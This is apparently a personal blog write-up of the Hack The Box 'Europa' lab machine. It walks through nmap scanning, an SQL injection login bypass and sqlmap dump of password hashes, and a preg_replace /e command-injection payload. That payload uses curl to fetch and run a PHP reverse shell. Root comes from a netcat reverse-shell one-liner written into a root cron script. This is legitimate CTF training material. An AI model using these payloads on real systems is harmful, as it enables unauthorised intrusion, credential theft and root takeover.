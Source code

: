 ```yaml
---
title: europa
author: fieldraccoon
date: 2020-07-11 
categories: [hack-the-box, linux]
tags: [hack-the-box, sql, sqli, medium, burpsuite]
math: true
---
```


Europa was a medium linux box that required an sql injection to bypass login followed by a reverse shell in the place of parameters using burpsuite, root involved enumeration of a cronjobs file being ran as root to get a shell.

# USER

## enumeration

Of course we start off with an nmap scan to reveal 2 main ports needed for this challenge.

```bash
root@kali:/home/kali/boxes/europa# nmap -sC -sV -o nmap 10.10.10.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-11 10:07 EDT
Nmap scan report for 10.10.10.22
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Sql injection

In the SSL cert for https we can see that there is a subdomain called `admin-portal` running on the domain `europacorp.htb`. 

We add both of theese to our hosts file and enumerate the site on https.

We are greeted by a login page and we intercept the request with burpsuite to take a look at the parameters that it is executing.

It simply just asks for an email and a username. We start off with some simple sql injection tests to see if the site is vulnerable.

We get a redirect to a dashboard page with the parameters:
```bash
email=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL##&password=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL#
```

This is one way of doing it but i will cover another method using sqlmap.

As we know that the site is vulnerable we test params with sqlmap.

Theese are the commands that i used:
```bash
sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever"

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –dbs

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables -D admin

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables –columns -D admin -T users

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users –dump password
```

The final command brings us the password dump:
```bash
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

We decrypt the password and login with `admin@europacorp.htb:SuperSecretPassword!` , note that this is an md5 hash that can be decrypted with an online tool.

After logging in we navigate to tools where we can see what seems to be an openvpn config file.

```bash
"openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}

```

We press generate and intercept this again with burpsuite.

```bash
pattern=%2Fip_address%2F&ipaddress=&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```

This is what it brings back, essentially url encoded the config above with a pattern param and ip address parameter. We tweak this to get command execution.
```bash
pattern=/ip_address/e&ipaddress=system('whoami')&text=....
```

This brings back the result `www-data` so we know we can continue with this.

After alot of tweaking we change it to get a file from our box and execute it.
```bash
pattern=/vtun0/e&ipaddress=system('curl+http%3a//10.10.xx.xx%3a8000/php-reverse-shell.php+|+php')&text=...
```

We get a connection on our netcat listener and we get a shell on the box!

## User flag

```bash
kali@kali:~/boxes/europa$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33246
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:06:16 up 4 min,  0 users,  load average: 0.01, 0.08, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
john
$ cd john
$ cat user.txt
2f8d40{...}
```

## enumeration 

After running `pspy` on the system we find a binary `clearlogs` running as root on the system. We read the file to take a look at it.

>clearlogs:
```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

We can see that it is running the file `logcleared.sh` in the system so we will see if we can change the contents of that file to give us a root shell.

We echo a reverse shell to the file and wait a few seconds for it to execute and we get our shell.
```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 > /tmp/f' > /var/www/cmd/logcleared.sh
$ chmod 777 /var/www/cmd/logcleared.sh


root@kali:/home/kali/boxes/europa# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33248
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
7f19438b275{...}
```

Thanks for reading hope that you enjoyed.

